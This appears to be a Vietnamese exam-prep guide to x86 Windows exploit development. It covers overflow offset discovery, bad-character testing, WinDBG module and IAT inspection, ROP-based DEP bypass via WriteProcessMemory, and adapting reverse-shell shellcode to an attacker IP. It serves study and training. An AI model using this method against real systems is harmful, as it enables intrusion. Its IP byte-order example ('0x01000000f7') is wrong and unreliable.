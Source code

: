 # Bài 1:

## B1: Xác nhận code POC overflow
```
Chỉ cần chạy thử và không cần phải chụp
```

## B2: Tìm điểm overflow (offset) 
```
# Chụp lại các bước

# Tạo ra pattern duy nhất để tìm điểm overflow 
msf-pattern_create -l 800

# Tìm điểm offset sau khi xác định overflow
msf-pattern_offset -l 800 -q <Giá trị EIP>
VD: msf-pattern_offset -l 800 -q 42306142
```

## B3: Tìm bad characters (ghi lại)
```
# Mẫu badchars của python (Copy vào trong code). Chụp sơ bộ không cần chi tiết.
badchars = b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
badchars += b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
badchars += b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
badchars += b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
badchars += b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
badchars += b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
badchars += b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
badchars += b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
badchars += b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
badchars += b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
badchars += b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
badchars += b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
badchars += b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
badchars += b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
badchars += b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
badchars += b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## B4: Tìm module có thể khai thác được (module không có ASLR) 
```
# Sử dụng narly để xem các modules và cơ chế bảo mật của chúng
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

.load narly 

!nmod

# Khi đó tìm module nào không có *ASLR (Khi thi chỉ có đúng 1 cái)
```

## B5: Tìm API có thể khai thác được (Có thể là VirtualAlloc hoặc là WPM) 
### 5.1: Tìm API
```
# Dựa trên output của !nmod để lấy tên module
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

# Tìm địa chỉ của Import Address Table

!dh <tên module> -f
VD: !dh KERNEL32 -f

# Khi đó để ý hàng Import Address Table Directory
# Cột thứ nhất là địa chỉ bắt đầu, cột thứ 2 là size (VD: 1234 [ 2c] )

dps <tên module>+1234 <tên module>+1234+2c
VD: dps KERNEL32+1234 KERNEL32+1234+2c

# Output sẽ là 1 list nơi lưu địa chỉ của các API mà module gọi đến. Tìm WriteProcessMemoryStub (Theo yêu cầu của đề bài)
# Ghi lại nơi lưu địa chỉ của API WriteProcessMemoryStub (Cột đầu tiên tương ứng với dòng)
```
### 5.2: Khi khai thác WriteProcessMemory thì cần phải tìm code cave (Một vùng bộ nhớ chứa bytes rỗng có quyền thực thi)
```
# Trong WinDBG của máy Debug sử dụng các lệnh và chụp lại:

!address
# VD output: 412000  413000  1000  MEM_IMAGE  MEM_COMMIT  PAGE_EXECUTE_READ      IMAGE      [KERNEL32; ........]

# Output của lệnh trên sẽ liệt kê tất cả vùng của các module.
# Chúng ta quan tâm đến các vùng trong module sẽ khai thác (Tên module thể hiện ở cột cuối).
# Trong module sẽ khai thác, để ý vùng có chữ PAGE_EXECUTE_READ.
# Lưu ý lại 2 cột đầu là địa chỉ bắt đầu và kết thúc của vùng.

s <Địa chỉ bắt đầu của vùng> <Địa chỉ kết thúc của vùng> 00000000
VD: s 412000 413000 00000000

# Lệnh trên dùng để tìm 1 vùng chứa bytes rỗng trong 1 khoảng chúng ta chỉ định (Vùng có PAGE_EXECUTE_READ đã tìm ở trên)
# Output của lệnh sẽ ra rất nhiều. Chụp 1 đoạn có rất nhiều số 0000000 là được.
# Có thể kiểm tra xem vùng nhớ có đủ size chứa shellcode không bằng lệnh: 

dd <Địa chỉ bắt đầu muốn ghi viết shellcode> + <Size shellcode (có thể là 300-400)>

# Nếu output trả về vẫn là 1 vùng chứa bytes rỗng (00000000) thì nghĩa là đủ size dùng được.
```

## B6: Tìm ROP gadgets để vượt qua DEP 
```
# Sử dụng rp-win-x86 để trích xuất ROP gadgets từ module cần khai thác
# Sử dụng narly trong WinDBG để tìm đường dẫn của module khai thác
.load narly
!nmod

# Đường dẫn là cột cuối cùng trong output của lệnh !nmod
# Trích xuất ROP chain bằng lệnh sau:
rp_win_x86.exe -f "<Đường dẫn đến moduled" -r 5 > rop.txt
```

## B7: Xây dựng stack dùng ROP gadget 
[Cách xây dựng ROP](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/H%C6%B0%E1%BB%9Bng%20d%E1%BA%ABn/X%C3%A2y%20d%E1%BB%B1ng%20ROP.MD)

## B8: Tạo shellcode thủ công
Dựa trên [shellcode mẫu trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.py) và chỉnh sửa tương ứng.  
Khi thực thi đoạn code trên, trong terminal sẽ sinh ra 1 đoạn shellcode. Copy thẳng shellcode đó vào trong code.  

### 8.1 Sửa địa chỉ IP thành IP của máy kali
[Tool đổi IP sang hex](https://www.browserling.com/tools/ip-to-hex)  
Lưu ý đảo lại chiều của các bytes. \
VD trên tool: `127.0.0.1 => 7f.00.00.01 (0x7f000001)` \
Trong code phải đảo thành: `0x01000000f7`

### 8.2 Chỉnh sửa lệnh loại bỏ badc characters
[Tool đổi assembly sang opcode](https://defuse.ca/online-x86-assembler.htm)  
Các lệnh gốc của shellcode mẫu sẽ có những opcode có bad characters.  
Dựa trên kết quả debug trong WinDBG để tìm điểm xảy ra crash hoặc có thể convert thủ công từng câu lệnh. Từ đó có thể biết câu lệnh cần thay thế.  
Thay thế 1 câu lệnh có bad character bằng 2 hoặc 3 câu lệnh thực hiện chức năng tương ứng.
```
# Giả sử ta có 0x05 là bad character và có câu lệnh:
add    eax, 0x12345678      # Opcode:   \x05 \x78 \x56 \x34 \x12 

# Ta có thể thay bằng 2 câu lệnh để đưa ra kết quả tương tự mà không bị dính bad character:
mov    ecx, 0x12345678      # Opcode:   \xb9 \x78 \x56 \x34 \x12
add    eax, ecx             # Opcode:   \x01 \xc8                  
```



